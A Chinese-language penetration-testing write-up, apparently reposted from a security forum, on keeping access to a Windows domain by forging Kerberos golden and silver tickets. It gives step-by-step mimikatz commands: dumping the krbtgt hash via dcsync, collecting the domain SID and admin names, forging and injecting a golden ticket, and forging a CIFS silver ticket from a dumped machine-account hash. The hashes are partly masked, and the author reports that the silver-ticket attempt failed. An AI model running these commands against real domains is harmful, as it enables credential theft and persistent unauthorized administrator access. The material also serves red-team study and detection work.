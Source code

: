来源:https://xz.aliyun.com/t/8656#toc-17

## 域环境权限维持

因为在渗透的过程中，我突然发现我用的域管账号pth失败，经过`net user itadmin /domain`发现

管理员登录然后修改了这个密码。这个时候下面两种方式能很好应对这种情况。

### 黄金票据

> 在域环境中，存在一个SID为502的域账号krbtgt。krbtgt是KDC服务使用的账号,属于Domain Admins组。在域环境中，每个用户的账号票据都是由krbtgt生成的，如果攻击者拿到了krbtgt的NTLM Hash或者AES-256的值,就可以伪造域内任意用户的身份，并以该用户的身份访问其服务。

使用域的Golden Ticket(黄金票据)进行票据传递攻击时,通常需要掌握以下信息:

- 需要伪造的域管理员用户名
- 完整的域名
- 域SID
- krbtgt的NTLM Hash或AES-256的值

**1.导出krbtgt的NTLM Hash**

```
mimikatz @lsadump::dcsync /domain:pohpl.com /user:krbtgt
```

[![img]([权限维持]/20201212201842-2c738196-3c74-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201212201842-2c738196-3c74-1.png)

2.获取域SID

```
wmic useraccount get name,sid
```

> Guest S-1-5-21-291403081-3947339614-192785736-501
>
> krbtgt S-1-5-21-291403081-3947339614-192785736-502

这里可以确定域的SID:`S-1-5-21-291403081-3947339614-192785736`

krbtgt的sid:`502`

3.查询域管理员账号

```
net group "domain admins" /domain
```

这里我选择伪造:`Aravind`

4.查询域名

```
ipconfig /all
```

获取到fqdn

5.查看当前票据并且清空

```
1.klist
2.klist purge
3.mimikatz @kerberos::purge
```

6.生成票据

```
mimikatz @kerberos::golden /admin:Aravind /domain:poxpl.com /sid:S-1-5-21-291403081-3947339614-192785736 /krbtgt:2cc650xxxxxxxxx568fe0f71b01ca /ticket:"Aravind.kiribi"

其实用aes 256也可以:
/krbtgt: -> /aes256:即可
```

执行完本地会生成一个`Aravind.kiribi`名字的文件

7.传递票据并注入内存

```
mimikatz @kerberos::ptt Aravind.kiribi
```

8.检索当前会话中的票据

```
mimikatz @kerberos::tgt
```

这个时候就代表注入成功啦,后面可以去验证下，是否有访问域控制器的权限了。

[![img]([权限维持]/20201212202131-90ff2ba6-3c74-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201212202131-90ff2ba6-3c74-1.png)

### 白银票据

这个我用的其实比较少.还是介绍一下吧。

> Silver Ticket不用于Golden Ticket。Silver Ticket的利用过程是伪造TGS,通过已知的授权的服务密码生成一张可以访问该服务的TGT。因为在票据生成的过程中不需要使用KDC,所以可以绕过域控制器，很少留下日志。而Golden Ticket在利用过程中需要由kdc颁发TGT,并且在生成伪造的TGT的20分钟内,TGS不会对该TGT的真伪进行检验。
>
> Silver Ticket 依赖于服务账号的密码散列值，这不同于Golden Ticket利用需要使用krbtgt账号的密码散列值，因此更加隐蔽。
>
> Golden Ticket使用krbtgt账号的密码散列值，利用伪造的高权限的TGT向KDC要求颁发拥有任意服务器访问权限的票据，从而获取域控制器权限。而Silver Ticket会通过相应的服务账号来伪造TGS,例如LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限。
>
> 黄金和白银最明显的区别就是:
>
> Golden Ticket是使用krbtgt账号hash加密的，而Silver Ticket是由特定的服务账号加密的。

攻击者在使用Silver Ticket对内网进行攻击时，需要掌握以下信息:

- 域名
- 域SID
- 目标服务器的FQDN
- 可利用的服务
- 服务账号的NTLM Hash
- 需要伪造的用户名

这里得说说服务账号的概念(我个人理解也不是很到位)

> 在域中，域用户可以提供服务，计算机账号也可以提供服务。因为域中的SPN只注册在用户(Users) 和 计算机(Computers)下，其中SPN是将服务实例与服务登录账户关联的。
>
> 查询所有服务账号:
>
> ```
> setspn -T DOMAINNAME -F -Q */*
> ```

下面演示下伪造CIFS的服务票据

> *Common Internet File System (CIFS) is a network filesystem protocol used for providing shared access to files and printers between machines on the network.*

1.获取cifs的服务账户

```
dcsync poXXl.com PXSERVER$
```

> 18825f30f26d1b776be64aaae7fa8f27

2.清空票据

```
klist purge
```

3.伪造票据

```
mimikatz @kerberos::golden /domain:poxl.com /sid:-1-5-21-291403081-3947339614-192785736 /target:POxxRVER.pohpl.com /service:cifs /rc4:18825f30f26d1b77xxx4aaae7fa8f27 /user:Aravind /ptt
```

[![img]([权限维持]/20201212202040-72b28c42-3c74-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201212202040-72b28c42-3c74-1.png)

4.验证权限

这个我尝试的时候发现并没有成功,可能是有其他kdc的签名验证之类,或者是机器的hash不对吧?(*)

后面我再本地再进行实验一下。

> 如果想修改成其他服务也很简单
>
> ```
> /service:LDAP
> ```